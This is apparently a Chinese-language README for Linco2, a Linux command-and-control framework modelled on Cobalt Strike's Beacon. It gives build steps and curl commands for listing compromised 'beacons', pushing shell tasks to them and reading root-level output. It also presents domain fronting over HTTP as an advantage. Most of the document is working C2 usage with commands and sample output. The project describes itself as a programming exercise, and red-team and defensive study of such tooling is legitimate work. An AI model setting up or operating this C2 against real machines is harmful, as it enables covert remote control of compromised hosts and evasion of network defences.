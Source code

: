 # Linco2

模拟Cobalt Strike的Beacon与C2通信过程，实现了基于HTTP协议的Linux C2，客户端可以通过curl就能下发Beacon任务。

**本项目旨在交流编程技术，初衷未曾想把它作为一个超大项目进行开发。**

> 由于对开源库依赖很少，因此不需要在上线机器上安装库，兼容性较强。


![](/image/2020-03-29-07-12-25.png)

## 构建方法

```
$ git clone https://github.com/Rvn0xsy/Linco2.git
$ cd Linco2
$ make
$ pip3 install flask
$ python3 server/webserver.py
```

最后执行`Linco2`目录下的`beacon`即可上线。

## 使用方式

## 查看上线主机

`curl http://127.0.0.1:5000/beacons/`

```
root@kali:~# curl http://127.0.0.1:5000/beacons/               
[                                                                   
  {                                                                 
    "HASH": "1540",                                                 
    "IP": [
      "127.0.0.1"
    ], 
    "LAST_HEARTBEART": 2, 
    "PID": "1540", 
    "TIMEOUT": "1", 
    "UID": "0", 
    "USERNAME": "root"
  }, 
  {
    "HASH": "35395", 
    "IP": "127.0.0.1|192.168.3.145|172.17.0.1|127.0.0.1", 
    "LAST_HEARTBEART": 1585479717, 
    "PID": "35395", 
    "TIMEOUT": "1", 
    "UID": "0", 
    "USERNAME": "root"
  }
]

```

其中`HASH`与`PID`相等，我通过PID来作为beacon的唯一性判定标准，这样就能对指定的beacon下发任务。




## 下发任务

`curl -X POST --data "task_data=id&task_type=1&beacon_id=35395" http://127.0.0.1:5000/push_task/`




```
root@kali:~# curl -X POST --data "task_data=id&task_type=1&beacon_id=35395" http://127.0.0.1:5000/push_task/
{
  "msg": "Success", 
  "status": 0
}
```

## 查看任务队列


`curl http://127.0.0.1:5000/tasks/`

```
root@kali:~# curl http://127.0.0.1:5000/tasks/[
  {
    "BEACON_ID": "1540", 
    "HANDLE": true, 
    "TASK_DATA": "id", 
    "TASK_ID": 0, 
    "TASK_RESPONSE": "", 
    "TASK_TYPE": 1
  }, 
  {
    "BEACON_ID": "35395", 
    "HANDLE": true, 
    "TASK_DATA": "id", 
    "TASK_ID": "205e9cfe-5696-473c-9eca-e6eb2959ed37", 
    "TASK_RESPONSE": "uid=0(root) gid=0(root) groups=0(root) ", 
    "TASK_TYPE": "1"
  }, 
  {
    "BEACON_ID": "35395", 
    "HANDLE": true, 
    "TASK_DATA": "id", 
    "TASK_ID": "63c9dab5-0931-4e4c-a3c6-7b405574f00c", 
    "TASK_RESPONSE": "uid=0(root) gid=0(root) groups=0(root) ", 
    "TASK_TYPE": "1"
  }
]

```

## 优点


- HTTP协议通信（能够很方便的域前置）
- 纯HTTP接口控制

不足点：

- 暂无心跳更改功能
- 协议暂时纯明文


